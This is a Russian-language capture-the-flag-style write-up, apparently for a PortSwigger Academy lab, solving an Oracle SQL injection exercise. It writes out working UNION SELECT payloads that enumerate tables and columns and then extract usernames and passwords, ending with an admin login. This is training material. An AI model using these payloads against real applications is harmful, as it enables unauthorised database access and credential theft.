 Откроем предложенный уявзимый ресурс, зайдем на страницу с подарками, и найдем данный запрос в `Proxy` -> `HTTP history` и отправим данный запрос в `Repeater`
```
GET /filter?category=Gifts
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/18.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20Oracle/pics%20for%20walktrough/1.png)
Проверим, что SQL-инъекция действительно возможна, добавив `'--`, и уберем значение категории фильтра, чтобы не видеть ненужную информацию
```
GET /filter?category='--
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/18.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20Oracle/pics%20for%20walktrough/2.png)
Учитывая, что мы эксплуатируем Oracle DB, воспользуемся встроенной таблицей `dual` для конструкции `UNION SELECT...`
Пользуясь конструкцией `UNION SELECT NULL,...,NULL from dual` найдем количество столбцов в возвращемой таблице. В нашем случае - их две
```
GET /filter?category='UNION+SELECT+NULL,NULL+FROM+dual--
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/18.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20Oracle/pics%20for%20walktrough/3.png)
Узнаем все имеющие таблицы в данной бд
```
GET /filter?category='UNION+SELECT+table_name,NULL+FROM+all_tables--
```
среди списка видим странную таблицу `USERS_JUXSCC`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/18.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20Oracle/pics%20for%20walktrough/4.png)
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/18.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20Oracle/pics%20for%20walktrough/5.png)
Смотрим список ее столблцов 
```
GET /filter?category='UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_JUXSCC'--
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/18.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20Oracle/pics%20for%20walktrough/6.png)
Видим 2 таблицы, узнаем что внутри каждой из них
`PASSWORD_EONUAO`
`USERNAME_ZGPZEG`
```
GET /filter?category='UNION+SELECT+USERNAME_ZGPZEG,+PASSWORD_EONUAO+FROM+USERS_JUXSCC--
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/18.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20Oracle/pics%20for%20walktrough/7.png)
Залогинимся под `administrator:uiarv4vewvj8rlklmkbj` и получаем уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/18.%20SQL%20injection%20attack%2C%20listing%20the%20database%20contents%20on%20Oracle/pics%20for%20walktrough/8.png)
